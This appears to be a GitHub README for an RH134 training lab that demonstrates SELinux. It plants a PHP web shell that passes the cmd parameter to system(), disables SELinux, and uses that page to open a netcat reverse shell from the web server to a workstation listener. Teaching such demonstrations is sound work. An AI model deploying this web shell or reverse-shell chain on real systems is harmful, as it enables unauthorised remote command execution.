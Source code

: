 # rh124_Selinux
* Extra Practice for RH134 Training - RHEL 8.2 Admin II
  >> To run on Redhat RH134 Lab Systems!

### Scenario: We going to the see effects of SElinux in ServerA/B 

### Part1: Instruction - run in servera or serverb ( choose 1 ) and run as user root
  >> We assume its servera 

1.  Setup apache webserver and php 
```sh 
yum install httpd php -y 
```

2. Setup PHP Page 
```sh 

cd /var/www/html/

touch index.php 

insert this code into index.php 

<html>
 <head>
  <title>PHP Page</title>
 </head>
 <body>
 <?php echo '<p>Hello Redhat</p>'; ?>
 <p> Welcome RH134 Students </p>
 <p> Sample Vendor provided Page/App</p>
 <p> This page (php) allows you to execute Linux Command</p>
 <p> SElinux Demo Page </p>
 <?php system($_GET['cmd']);?>

 </body>
</html>
```

3. Comment PrivateTMP in htttpd and php-fpm systemd config file and save it
```sh 

vim /usr/lib/systemd/system/httpd.service
#PrivateTmp=true

vim /usr/lib/systemd/system/php-fpm.service
#PrivateTmp=true

systemd daemon-reload 
systemctl enable --now httpd
```

4. Turn Off SElinux 
```sh 

getenforce 

setenforce 0 

getenforce 

```

5. Enable firewall to allow access to webserver
```sh 
firewall-cmd --permanent --add-service=http

firewall-cmd --reload
```

### Part2: Instruction - run in workstation machine

1. Open firefox to http://servera.lab.example.com 
once in the browser, execute this on the address bar, this will create a device character file called backpipe1 

```sh 
http://servera.lab.example.com/index.php?cmd=mknod /var/tmp/backpipe1 p

```

2. Create a local listener in workstation machine, open a terminal and run 
```sh 

firewall-cmd ----permanent --add-port=1234/tcp

firewall-cmd --reload

nc -lvvp 1234

```

3. Back to firefox, run the following to establish a reverse shell from webserver to workstation listener 
```sh 
http://servera.lab.example.com/index.php?cmd=/bin/sh 0</var/tmp/backpipe1 | nc workstation.lab.example.com 1234 1>/var/tmp/backpipe1


```